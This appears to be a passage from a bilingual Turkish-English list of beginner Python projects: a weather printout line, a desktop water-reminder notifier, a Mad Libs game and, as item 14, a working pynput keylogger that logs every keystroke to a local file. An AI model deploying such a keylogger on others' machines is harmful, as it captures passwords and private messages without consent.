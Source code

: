 ```python
    print(f"Date: {date}. Weather forecast: {forecast_weather}. Temperature forecast: {forecast_temp_celsius:.1f} Celsius")
```

13. Bu proje, kullanıcının masaüstünde bildirimler gösteren bir program oluşturmayı içerir. (This project involves creating a program that displays notifications on the user's desktop.)

```python
import time
import datetime
from plyer import notification

while True:
    now = datetime.datetime.now()

    if now.minute % 5 == 0:
        notification.notify(
            title="Time to Drink Water!",
            message="Remember to drink water every 5 minutes.",
            # Tabi ki test için böyle yazdım.
            # Of course, I wrote it for testing purposes.
            app_name="Water Reminder",
            timeout=10
        )

    time.sleep(300)
```

14. Bu proje, kullanıcının yaptığı tüm klavye girdilerini kaydeden bir program oluşturmayı içerir. (This project involves creating a program that records all keyboard inputs made by the user.)

```python
from pynput.keyboard import Key, Listener
import logging

logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format=" %(asctime)s - %(message)s")

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener :
    listener.join()
```

15. Bu proje, eksik kelimelerle bir hikaye oluşturan bir program oluşturmayı içerir ve kullanıcıların kendi kelimelerini girerek benzersiz bir hikaye oluşturmasına izin verir. (This project involves creating a program that generates a story with missing words, allowing the user to fill in the blanks with their own words to create a unique story.)

```python
print("Welcome! Please answer the following questions to start playing Mad Libs:\n")

name = input("Enter a name: ")
adjective = input("Enter an adjective: ")
noun = input("Enter a noun: ")
verb = input("Enter a verb: ")
adverb = input("Enter an adverb: ")

story = f"{name} was a {adjective} {noun} who loved to {verb} {adverb}. One day, while {verb}ing in the park, {name} met a {adjective} {noun} who was also {verb}ing {adverb}. They quickly became friends and decided to {verb} together every day."

print("\nHere's your completed story:\n")
print(story)
```
